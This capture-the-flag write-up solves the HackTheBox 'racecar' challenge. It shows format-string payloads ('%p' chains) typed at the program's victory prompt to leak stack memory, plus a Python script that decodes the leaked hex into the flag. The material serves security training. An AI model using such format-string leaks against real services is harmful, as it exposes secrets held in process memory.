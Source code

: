 > Did you know that racecar spelled backwards is racecar? Well, now that you know everything about racing, win this race and get the flag!
#### Steps
1. Unzip the file, password `hackthebox` (given)
2. We get an ELF executable for racecar
3. Connecting to the instance through netcat and playing a few times, I found that you wil always win if you choose car 1 and race 2 or vice versa
4. After winning, it allows for user input
5. Running strings on `racecar` there a couple interesting lines about flags, one just being flag.txt
```
└─$ strings racecar | grep flag
flag.txt
%s[-] Could not open flag.txt. Please contact the creator.
```
7. Next I used radare2 with these commands to look at the main function
```
[0x00000790]> aaa
[0x00000790]> s main
[0x000013e1]> pdf
```
7. I didn't find much of interest here
8. Other note: after messing w the instance a few times, I noticed that you win the race evry time as long as you pick the first car and second race or vice versa (this is probably evident in source code, but I don't have any reverse engineering software rn so I'm improvising)
9. I decided to text for common issues with pwn CTFs (format string) and it worked!
10. Format string proof of concept:
```
[!] Do you have anything to say to the press after your big victory?                       
> %x%x%x                                                                                                                                                       

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
575831c017056617d85
```
11. This is where the source code comes in
12. First, I made a `flag.txt` file that contained a bunch of `AAAAAA`
13. Running the executable locally:
```
[!] Do you have anything to say to the press after your big victory?                                                     
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p                                                                                                                    

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x56ba0200 0x170 0x56618d85 0x8 0x60 0x26 0x1 0x2 0x5661996c 0x56ba0200 0x56ba0380 0x41414141 0x41414141 0x41414141
```
14. `%p` is for pointers
15. Since `41` is the hex representation of `A`. I know where the `flag.txt` file starts on the stack
16. The flag starts at the 12th address
17. Running on the instance
```
[!] Do you have anything to say to the press after your big victory?                                                               
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p                                                                 

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
0x56ed81c0 0x170 0x5661ed85 (nil) 0x1f 0x26 0x1 0x2 0x5661f96c 0x56ed81c0 0x56ed8340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0x39c6d200 0xf7fa93fc 0x56621f8c 0xffa19fd8 0x5661f441 0x1 0xffa1a084 0xffa1a08c 0x39c6d200
```
18. (excluded the nil part and everything before to make decoding easier)
19. Script for decoding the flag:
```python
import re

enc_flag = "0x1f 0x26 0x1 0x2 0x5661f96c 0x56ed81c0 0x56ed8340 0x7b425448 0x5f796877 0x5f643164 0x34735f31 0x745f3376 0x665f3368 0x5f67346c 0x745f6e30 0x355f3368 0x6b633474 0x7d213f 0x39c6d200 0xf7fa93fc 0x56621f8c 0xffa19fd8 0x5661f441 0x1 0xffa1a084 0xffa1a08c 0x39c6d200"
enc_flag = enc_flag.split()[::-1]

# iterate over each chunk, convert hexadecimal characters to ASCII, and reverse the order
flag = []
for chunk in enc_flag:
    hex_chars = re.findall('..', chunk)
    
    flag_chunk = "".join(chr(int(char, 16)) for char in hex_chars[::-1] if char != '0x')
    flag.append(flag_chunk)

flag.reverse()
print(''.join(flag))
```
20. Done!
```
└─$ python3 dcdflag.py
&lùaVÀíV@íVHTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_XXXXXXX}ÒÆ9üú÷bVØ¡ÿAôaV ¡ÿ ¡ÿÒÆ9
```
